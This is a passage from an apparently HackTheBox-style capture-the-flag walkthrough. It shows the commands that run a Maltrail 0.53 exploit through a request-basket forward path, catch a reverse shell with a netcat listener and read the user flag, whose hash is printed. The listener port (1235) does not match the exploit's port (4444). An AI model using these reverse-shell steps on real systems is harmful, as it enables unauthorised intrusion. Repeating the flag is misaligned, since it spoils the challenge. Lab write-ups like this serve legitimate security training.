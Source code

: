 ```python
  main()
```

via the following command:

```sh
python3 exploit.py [listening_IP] [listening_PORT] [URL of the basket collector]
```

Start a listening service:

```sh
nc -nlvp 1235
```

On the settings of the basket, alongside `Proxy Response` click also the `Expand Forward Path`.

Run the exploit script:

```sh
python3 Maltrail_0.53_exploit.py 10.10.14.37 4444 http://10.10.11.224:55555/jl16p9c
```

And there is the shell on the listening service.

```sh
nc -nlvp 1235
Connection from 10.10.11.224:53666
$ whoami
whoami
puma
```

----------------

## Task 8

Submit the flag located in the puma user's home directory.

## Solution 8

Navigate to:

```sh
cd /home/puma
```

List the files:

```sh
ls
user.txt
```

Read the file, which shows the flag:

```sh
cat user.txt
cde3c48a802a299089d5eb4bac0153bf
```
